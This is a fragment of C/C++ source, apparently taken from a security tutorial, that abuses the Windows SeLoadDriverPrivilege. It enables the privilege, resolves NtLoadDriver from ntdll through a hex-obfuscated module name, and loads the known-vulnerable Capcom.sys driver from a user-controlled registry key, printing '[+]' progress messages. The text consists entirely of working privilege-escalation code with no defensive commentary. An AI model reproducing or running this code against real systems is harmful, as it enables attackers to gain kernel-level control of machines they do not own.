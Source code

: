 ```c
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
L"SeLoadDriverPrivilege",   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("LookupPrivilegeValue error: %un", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;

if (bEnablePrivilege) {
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
}

// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("AdjustTokenPrivileges error: %x", GetLastError());
return FALSE;
}

//system("cmd");
// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
std::cout << "[+] Set Registry Keys" << std::endl;
NTSTATUS st1;
UNICODE_STRING pPath;
UNICODE_STRING pPathReg;
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
HMODULE hObsolete = GetModuleHandleA(NTDLL);
*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

RtlInitUnicodeString(&pPath, pPathSource);
RtlInitUnicodeString(&pPathReg, pPathSourceReg);
st1 = NtLoadDriver(&pPathReg);
std::cout << "[+] value of st1: " << st1 << "\n";
if (st1 == ERROR_SUCCESS) {
std::cout << "[+] Driver Loaded as Kernel..\n";
std::cout << "[+] Press [ENTER] to unload driver\n";
}

getchar();
st1 = NtUnloadDriver(&pPathReg);
if (st1 == ERROR_SUCCESS) {
std::cout << "[+] Driver unloaded from Kernel..\n";
std::cout << "[+] Press [ENTER] to exit\n";
getchar();
}

return 0;
}
```